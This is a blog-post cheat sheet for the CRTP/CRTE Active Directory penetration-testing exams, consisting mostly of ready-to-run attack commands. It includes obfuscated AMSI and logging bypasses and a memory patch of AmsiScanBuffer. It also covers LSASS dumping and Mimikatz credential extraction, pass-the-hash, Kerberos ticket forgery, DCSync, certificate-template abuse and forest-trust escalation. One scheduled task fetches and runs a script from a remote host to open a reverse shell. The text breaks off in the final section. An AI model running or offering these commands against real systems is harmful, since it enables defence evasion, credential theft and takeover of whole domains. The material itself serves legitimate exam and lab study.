 ```yaml
---
title: "5 - Cheat Sheet"
classes: wide
header:  
  teaser: /assets/images/posts/crte/crte-teaser6.jpg
  overlay_image: /assets/images/main/header4.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Cheat Sheet for CRTP/CRTE exams"
description: "Cheat Sheet for CRTP/CRTE exams"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows 
  - cheatsheet
toc: false
---
```


# Cheat Sheet

As we know, these exams are time-based. So, I created this cheat sheet to make sure the syntax of the commands are correct and consequently I dont lose any time with BS.

> The important part is to understand the content; the cheat sheet is just an **auxiliary tool** in the process.

- There is no hashes or informations of the exams here!

> [PS] I'm trying to add a copy button in the code blocks.

<style>
  /* Style for the chapter container */
  .chapters {
    margin: 10px;
    padding: 10px;
    border: 1px solid #333;
    border-radius: 15px; 
    font-family: 'Arial', sans-serif;
    background-color: #1a1a1a;
    color: #ddd;
    width: calc(100% - 40px);
  }

  /* Style for the details summary */
  details summary {
    cursor: pointer;
    font-weight: bold;
    background-color: #333;
    padding: 12px;
    border: 1px solid #222;
    border-radius: 8px; 
    margin-bottom: 10px;
  }

  /* Style for the details content */
  details .content {
    margin: 20px 0;
    padding: 20px;
    border: 1px solid #222;
    border-radius: 8px; 
    background-color: #090a08;
  }
</style>


<div class="chapters">
  <details>
    <summary>Bypass</summary>    
    <div class="content" markdown="1">
 

**AMSI bypass**:
```powershell
Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
(Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})
```

**Script Block logging bypass**:
```powershell
[Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'twProvid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
```

**.NET AMSI bypass**:
```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
[DllImport("kernel32")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
[DllImport("kernel32")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

  </div>
  </details>

  <details>
    <summary>Enumeration</summary>    
    <div class="content" markdown="1">
 


**AD Module**:
Import:
```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```powershell
Get-ADUser -Filter * | Select -ExpandProperty samaccountname
Get-ADComputer –Filter * | select –expand name
Get-ADGroup -Identity 'Domain Admins' -Properties *
Get-ADGroup -Identity machineadmins -Properties Description
Get-ADGroupMember -Identity 'Domain Admins'
Get-ADGroupMember -Identity 'Enterprise Admins'
Get-ADGroupMember -Identity 'Enterprise Admins' -Server domain.local
Get-ADOrganizationalUnit -Identity 'OU=StudentsMachines,DC=us,DC=domain,DC=local' | %{Get-ADComputer -SearchBase $_ -Filter *} | select name
Get-ACL 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=domain,DC=local' | select -ExpandProperty Access
(Get-ADForest).Domains
Get-ADTrust -Filter *
Get-ADTrust -Filter 'intraForest -ne $True' -Server (Get-ADForest).Name
(Get-ADForest).Domains | %{Get-ADTrust -Filter '(intraForest -ne $True) -and (ForestTransitive -ne $True)' -Server $_}
Get-ADTrust -Filter * -Server domain.local
```

**Powerview**:
Import
```powershell
. C:\AD\Tools\PowerView.ps1
```

```powershell
(Get-DomainPolicy).KerberosPolicy
Get-DomainGPOLocalGroup
Get-DomainGroupMember -Identity <group>
Get-DomainOU
(Get-DomainOU -Identity <OU>).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name
Get-DomainGPO
(Get-DomainOU -Identity <OU>).gplink
Get-DomainGPO -Identity '{<result of .gplink>}'
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<user>"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<group>"}
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
Get-ForestTrust -Forest <forest>
```

  </div>
  </details>

  <details>
    <summary>Local Privesc</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
Invoke-ServiceAbuse -Name ALG -UserName domain\studentuserx -Verbose
```

**Same attack with accesschk64 from SysInternals**:
```powershell
.\accesschk64.exe -uwcqv 'user' *

sc.exe config ALG binPath= "net localgroup administrators domain\user
/add"
sc.exe stop ALG
sc.exe start ALG
sc.exe config ALG binPath= "C:\WINDOWS\System32\alg.exe"
sc.exe stop ALG
sc.exe start ALG
```

**Look for local administrative access w/ Powerview**:
```powershell
Find-LocalAdminAccess -Verbose
Find-WMILocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess.ps1
```

**Recursively look for group membership**:
```powershell
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName) {
  $groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname) 
  $groups
  if ($groups.count -gt 0) {
    foreach ($group in $groups) {
      Get-ADPrincipalGroupMembershipRecursive $group
    }
  }
}
```

> ACL entries

**Check if any of the groups has interesting ACL entries**:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'managers'}
Get-DomainObjectAcl -Identity machineadmins -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match 'managers'}
```

  </div>
  </details>

  <details>
    <summary>LAPS</summary>
    <div class="content" markdown="1">

```powershell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1 -Verbose
C:\AD\Tools\Get-LapsPermissions.ps1
```

With Powerview:
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_}
```

**Read the password**:
```powershell
Get-ADComputer -Identity <computer> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
Get-AdmPwdPassword -ComputerName <computer>
Get-DomainObject -Identity <computer> | select -ExpandProperty ms-mcs-admpwd
```

**Access the machine with the password**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<passwd> cmd
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
$mailmgmt
```

  </div>
  </details>

  <details>
    <summary>Extract Credentials</summary>
    <div class="content" markdown="1">
 


winrs:
```powershell
winrs net use x: \\<computer>\C$\Users\Public /user:<computer>\Administrator <password>
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
net use x: /d
```

**Bypass behaviour detection**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<password> cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.X
```

**Extract**:
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**Microsoft signed binary to download NetLoader**:
```powershell
winrs -r:<computer> -u:.\administrator -p:<password>
"bitsadmin /transfer WindowsUpdates /priority normal http://127.0.0.1:8080/Loader.exe C:\\Users\\Public\\Loader.exe"
```

**PowerShell Remoting and Invoke-Mimi**:
```powershell
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<computer>\administrator", $passwd)
$mailmgmt = New-PSSession -ComputerName <computer> -Credential $creds
Enter-PSSession $mailmgmt
```

**Bypass AMSI before proceeding**!
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $mailmgmt
Enter-PSSession $mailmgmt
Invoke-Mimi -Command '"sekurlsa::keys"'
```

  </div>
  </details>

  <details>
    <summary>gMSA</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
Get-ADServiceAccount -Filter *
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

> You have to open a shell with the user that has permission to read gMSA, after that

```powershell
Import AD Module again, then:
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
To decode the password we can use DSinternals:
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash –Password $decodedpwd.SecureCurrentPassword
```

> After that, you can PTH to see if the user has access to another machine!

  </div>
  </details>

  <details>
    <summary>PTH</summary>
    <div class="content" markdown="1">

**From an elevated shell**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain> /aes256:<password> /run:cmd.exe" "exit"
```

**using NTLM**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:<user> /domain:<domain>  /ntlm:<password> /run:cmd.exe" "exit"

C:\AD\Tools\Rubeus.exe s4u /user:<user> /aes256:<password> /impersonateuser:administrator /msdsspn:CIFS/<machine.domain> /altservice:HTTP /domain:<domain> /ptt
```

**Doesn't need elevation**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /domain:<domain> /user:<user> /aes256:<password> opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

  </div>
  </details>

  <details>
    <summary>Application Whitelisting</summary>
    <div class="content" markdown="1">

> CLM, AppLocker, WDAC

**Verify if PowerShell is running in Constrained Language Mode**:
```powershell
$ExecutionContext.SessionState.LanguageMode
```

**Check for AppLocker** (if there is an error, the AppLocker is not in use):
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
Get-AppLockerPolicy –Effective
```

**Verify WDAC**:
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
CodeIntegrityPolicyEnforcementStatus : 2
UsermodeCodeIntegrityPolicyEnforcementStatus : 2
```

Check out [Lolbas Project on Github](https://lolbas-project.github.io/)

> Lets DUMP lsass*

**Get the PID of lsass.exe process**:
```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
```

**Copy the `lsass` to your machine**:
```powershell
echo F | xcopy \\us-jump\C$\Users\Public\lsass.dmp C:\AD\Tools\lsass.dmp
```

**Run Mimikatz with Admin Priv, then**:
```powershell
sekurlsa::minidump C:\AD\Tools\lsass.DMP
privilege::debug
sekurlsa::keys
```

**Check for Certificates**:
```powershell
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-jump\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-jump\C$\Users\Public\InShellProf.dll /Y
```

```powershell
winrs -r:us-jump cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
ls cert:\LocalMachine\My
ls cert:\LocalMachine\My\BAD78F43BB4CB13C4843E49B51AA051530FFBBDB | Export-PfxCertificate -FilePath C:\Users\Public\user.pfx -Password (ConvertTo-SecureString -String 'SecretPass@123' -Force -AsPlainText)
```

**Copy the certificate**:
```
echo F | xcopy \\us-jump\C$\Users\Public\user.pfx C:\AD\Tools\user.pfx
```

  
  </div>
  </details>
  
  <details>
    <summary>Unconstrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
```

**Access the machine with unconstrained deleg, then**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
cd C:\AD\Tools\
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Verbose
```

**Copy Rubeus using xcopy and execute using winrs**:
```powershell
echo F | xcopy C:\AD\Tools\Rubeus.exe \\us-web\C$\Users\Public\Rubeus.exe /Y
winrs -r:us-web cmd.exe
C:\Users\Public\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Copy and execute Rubeus using PowerShell Remoting**:
```powershell
$usweb1 = New-PSSession us-web
Copy-Item -ToSession $usweb1 -Path C:\AD\Tools\Rubeus.exe -Destination C:\Users\Public
Enter-PSSession $usweb1
cd C:\Users\Public .\Rubeus.exe monitor /targetuser:DC$ /interval:5 /nowrap
```

**Abuse the printer bug**:
```powershell
C:\AD\Tools\MS-RPRN.exe \\dc.domain.local \\us-web.domain.local
```

**Copy the Base64EncodedTicket, then**:
```powershell
C:\AD\Tools\Rubeus.exe ptt /ticket:TGTofDC$
```

**Run DCSync attack**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
```

**To get EA access**

it's the same:

1. Monitor the DC of the root of the forest
2. Execute MS-RPRN with the DC target
3. Copy the Base64 and PTT
4. DCSync EA (Administrator of the root forest)

```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController domain-dc.domain.local
```

**In a different forest**

> If TGT Delegation is enabled across forests trusts, we can abuse the printer bug across two-way forest trusts as well.

1. ASKTGT
2. Send Rubeus to the target machine
3. Access the machine with WINRS
4. Execute Rubeus monitor (with the Target Forest)
5. Execute MS-RPRN (with the Target Forest)
6. Copy base64 & PTT with Rubeus

**Now we can run DCSync to the Targeted Forest**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User usvendor\krbtgt --Domain usvendor.local --DomainController usvendor-dc.usvendor.local
```

  </div>
  </details>

  <details>
    <summary>Constrained delegation</summary>
    <div class="content" markdown="1">
 


```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

**Collect the service from msDS-AllowedToDelegateTo and access with Rubeus S4U**:
```powershell
klist
winrs -r:us-mssql.domain.local cmd.exe
```

**To execute on another Forest just add the flag -Server**:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server domain.local
```

**We need access to the machine that has Constrained Deleg enabled**:
```powershell
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:<user> /domain:domain.local
C:\AD\Tools\Rubeus.exe s4u /user:<user> /rc4:<hash> /impersonateuser:Administrator /domain:domain.local /msdsspn:nmagent/dc.domain.local /altservice:ldap /dc:dc.domain.local /ptt
```

**With the LDAP service ticket, We can DCSync**:
```powershell
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\krbtgt --Domain domain.local --DomainController dc.domain.local
C:\AD\Tools\SharpKatz.exe --Command dcsync --User domain\administrator --Domain domain.local --DomainController dc.domain.local
```


  </div>
  </details>

  <details>
    <summary>ACLs Write Permissions</summary>
    <div class="content" markdown="1">

**If you have Write permission**:
```powershell
echo F | xcopy C:\AD\Tools\Loader.exe \\us-mgmt\C$\Users\Public\Loader.exe /Y
winrs -r:us-mgmt cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
sekurlsa::keys
```

**If you get any user, run the full enumeration on that user**:
```powershell
C:\AD\Tools\PowerView.ps1
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'mgmtadmin'}
```

**With GenericWrite we can set Resource-based Constrained Delegation (RBCD)**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
$comps = 'user1$','user2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps -Verbose
```

**Extract AES of your machine**:
```powershell
C:\AD\Tools\SafetyKatz.exe -Command "sekurlsa::keys" "exit"
```

**Go for the one with SID S-1-5-18 that is a well-known SID for the SYSTEM user**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:http/us-helpdesk /impersonateuser:administrator /ptt
klist
winrs -r:us-helpdesk cmd
```

**To copy our loader to the machine, we need to access the filesystem. So, request a TGS for CIFS using Rubeus**:
```powershell
C:\AD\Tools\Rubeus.exe s4u /user:machine$ /aes256:$password /msdsspn:cifs/us-helpdesk /impersonateuser:administrator /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\us-helpdesk\C$\Users\Public\Loader.exe /Y
winrs -r:us-helpdesk cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

> If any new users are found, *PTH and Find-PSRemotingLocalAdminAccess -Verbose*



  </div>
  </details>

  <details>
    <summary>Tickets</summary>
    <div class="content" markdown="1">
 


**GOLDEN**

**Without using Invoke-Mimi.ps1**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

**Using Invoke-Mimi.ps1 and PowerShell Remoting**:
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
$sess = New-PSSession <machine name>
Enter-PSSession -Session $sess

# bypass AMSI 

exit
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
Enter-PSSession -Session $sess
Invoke-Mimi -Command '"lsadump::lsa /patch"'
```

**SILVER**

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
klist
```

**Start a listening in another prompt**:
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\powercat.ps1
powercat -l -v -p 443 -t 1000
schtasks /create /S <target machine> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Userx" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.x/Invoke-PowerShellTcpEx.ps1''')'"
schtasks /Run /S <target machine> /TN "Userx"
```

We should get a shell on the listener prompt. 

> For *WMI*, we need 2 tickets – *HOST and RPCSS*

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:HOST /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /target:<target dc> /service:RPCSS /aes256:<hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
Get-WmiObject -Class win32_operatingsystem -ComputerName <computer name>
```

  </div>
  </details>

  <details>
    <summary>DCSync</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
```

**Check if the user has Replication Rights**:
```powershell
Get-DomainObjectAcl -SearchBase "dc=us,dc=domain,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuserx"}
```

**With DA privileges We can add those rights**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:administrator /domain:domain.local /aes256:<hash> /run:cmd.exe" "exit"
```

**Using Powerview**:
```powershell
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=domain,dc=local" -PrincipalIdentity studentuserx -Rights DCSync -PrincipalDomain domain.local -TargetDomain domain.local -Verbose
```

**Using AD Module with Set-ADACL from RACE**:
```powershell
Set-ADACL -DistinguishedName 'DC=us,DC=domain,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose
```

> From a normal shell, check the rights again

**Now we can execute DCSync attacks**:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

  </div>
  </details>

  <details>
    <summary>AD CS</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\Certify.exe cas
C:\AD\Tools\Certify.exe find
```

**ENROLLEE_SUPPLIES_SUBJECT attribute means we can request a certificate for ANY user**:
```powershell
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
C:\AD\Tools\Rubeus.exe asktgt /user:<user> /certificate:C:\AD\Tools\user.pfx /password:SecretPass@123 /nowrap /ptt
C:\AD\Tools\Certify.exe request /ca:domain-DC.domain.local\DOMAIN-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

> *Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to cert.pem*


C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx

**Finally, request a TGT for the DA**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:dc whoami
```

**For EA**

**Request and convert to PFX, then request the TGT**:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:domain.local\Administrator /dc:domain-dc.domain.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
winrs -r:domain-dc whoami
```

   </div>
  </details>

  <details>
    <summary>Azure AD Connect</summary>
    <div class="content" markdown="1">

```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server domain.local -Properties * | select SamAccountName,Description | fl
C:\AD\Tools\Rubeus.exe asktgt /domain:domain.local /user:<user> /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-adconnect\C$\Users\<user>\Downloads\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-adconnect\C$\Users\<user>\Downloads\RunWithRegistryNonAdmin.bat /Y
winrs -r:us-adconnect cmd
cd C:\Users\<user>\Downloads
RunWithRegistryNonAdmin.bat
```

**Extract credentials of MSOL_**:
```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.x/adconnect.ps1')
ADconnect
```

**Now we can run DCsync (From elevated shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\administrator /domain:domain.local" "exit"
```

**DCsync (from a normal shell)**:
```powershell
runas /user:domain.local\MSOL_16fb75d0227d /netonly cmd
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:domain\administrator /domain:domain.local"'
```


   </div>
  </details>

  <details>
    <summary>Domain Privesc (TrustKey & KRBTGT)</summary>
    <div class="content" markdown="1">
 


**Using TRUSTKEY**

**With DA - Escalate to EA or DA of the parent domain**:

```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:administrator /aes256:<hash> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\Loader.exe \\dc\C$\Users\Public\Loader.exe /Y
winrs -r:dc cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.x
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
lsadump::trust /patch
```

> Grab the RC4 of [ In ] child domain -> parent domain**
   
**Create the inter-realm TGT using the trust key**:   
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /rc4:<hash> /user:Administrator /service:krbtgt /target:domain.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```

``` powershell
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/domain-dc.domain.local /dc:domain-dc.domain.local /ptt
```

``` powershell
klist
```

``` powershell
dir \\domain-dc.domain.local\c$
```
 

**Using KRBTGT Hash**

**Create inter-realm TGT with SID history for Enterprise Admins**:
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:<hash> /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /ptt" "exit"
klist
winrs -r:domain-dc cmd
```


   </div>
  </details>

  <details>
    <summary>Abuse Trust Relationship (Forest)</summary>
    <div class="content" markdown="1">
 


```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /aes256:<hash> /ptt"
lsadump::dcsync /user:domain\user$ /domain:domain.local
```

**Copy SafetyKatz and Rubeus**:
```powershell
echo F | xcopy C:\AD\Tools\BetterSafetyKatz.exe \\dc.domain.local\C$\Users\Public\BetterSafetyKatz.exe /Y
echo F | xcopy C:\AD\Tools\Rubeus.exe \\dc.domain.local\C$\Users\Public\Rubeus.exe /Y
```

**Forge an inter-realm TGT**:
```powershell
winrs -r:dc.domain.local cmd
